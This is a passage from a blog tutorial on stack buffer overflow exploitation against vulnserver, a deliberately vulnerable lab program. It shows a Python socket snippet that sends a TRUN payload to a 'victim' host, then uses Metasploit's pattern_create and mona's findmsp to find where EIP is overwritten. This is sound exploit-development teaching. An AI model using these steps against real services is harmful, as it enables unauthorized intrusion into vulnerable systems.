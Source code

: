 The python sockets module allows you to create new socket connections,  using the code below you can create a new ipv4 connection socket, and store it within a variable.

You can then use the connect() function to establish a connection to the victim host system, on a provided port. 

```python
# socket connection to the program's port
expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
expl.connect((victim_host, port))
expl.send(buffer_exploit)

print("[x] Sent TRUN + malicious payload to the victim")
print("[!] You may need to send it multiple times")
expl.close()
```

Also when sending a specific command we can use the denotation of /.:/  to represent a new line. The same methodology can be utilized to login to Applications via socket Connections in python. In the instance that you may be exploiting a remote authenticated vulnerability. You can send user credentials if needs be.

After you send the vulnerable application the buffer of A's, you can observe the application crashing. The overwritten registers show this is being successfully exploited.

![vulnserver 4](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/vulnserver/vulnserver4.png)

Now that we can confirm it is vulnerable to a classic EIP overwritten buffer overflow, we need to figure out exactly how big the buffer size is when we write data into the program, it crashes with 4000 bytes, but how big is the buffer? 

If we can determine how big the buffer is, we can fill it up, and the next data after it will be written into the EIP registers (4 bytes), which we need to control.

## Calculate the input buffer size

We can use the pattern_create tool from Metasploit, this creates a unique pattern every few bytes, if we crash the program with this, we can see exactly where the EIP register has been overwritten.

```
└─▪ ./pattern_create.rb -l 4000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6.........
```

Send this unique string to the application instead of all A's

![vulnserver 5](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/vulnserver/vulnserver5.png)

Now you can see the EIP register has been overwritten with 386F4337, this is a section of the unique pattern we sent, you can use the mona.py Immunity debugger extension as set up in the previous post (https://fullpwnops.com/immunity-windbg-mona/) to calculate this buffer size.

Use the command `!mona findmsp` to have mona calculate exactly how much data it took to overwrite the EIP register.
